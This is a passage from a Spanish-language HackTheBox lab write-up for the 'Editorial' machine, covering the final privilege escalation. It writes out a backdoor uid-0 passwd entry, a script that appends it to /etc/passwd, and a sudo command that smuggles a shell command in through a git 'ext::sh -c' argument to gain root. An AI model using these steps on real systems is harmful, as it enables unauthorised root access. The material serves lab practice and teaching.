 Con esto en menteeeeee, nos armamos:

```bash
elsancochon:$1$2yNypry0$SlzzxGBZ8Ebvtql/nwPWm1:0:0:estamosOkhe:/root:/bin/bash
```

Ahora nos acomodamos:

```bash
prod@editorial:/opt/internal_apps/clone_changes$ mkdir /tmp/.my-things
prod@editorial:/opt/internal_apps/clone_changes$ cd !$
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/editorial/htb608-bash-shell-prod-echoYcat-nu_txt.png" style="width: 100%;"/>

Y finalmente creamos el script que vamos a ejecutar mediante la vulnerabilidad:

> Hacemos esto para unicamente modificar el contenido del script, así no nos preocupamos por espacios o cosas raras al ejecutar la vuln.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/editorial/htb608-bash-shell-prod-echoYcat-naneninonu_sh.png" style="width: 100%;"/>

> El script tomara el contenido del archivo `nu.txt` y lo agregará como una nueva linea al final del objeto `passwd`.

Le damos permisos de ejecución al script:

```bash
prod@editorial:/tmp/.my-things$ chmod +x naneninonu.sh
```

Y estamos liiiiiistos:

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/.my-things/naneninonu.sh'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/editorial/htb608-bash-shell-prod-sudo-py-clone_prod_change_py-ext-bash-naneninonu_sh.png" style="width: 100%;"/>

Adjuntó correctamente la línea... Y si validamos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/editorial/htb608-bash-shell-root.png" style="width: 100%;"/>

SISISI, somos **roooooooot** 🥕🥕🥕

Y listones, terminamos la resolución...

# Post-Explotación [#](#post-explotacion) {#post-explotacion}

---

## Flags [📌](#post-explotacion-flags) {#post-explotacion-flags}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/editorial/htb608-flags.png" style="width: 100%;"/>
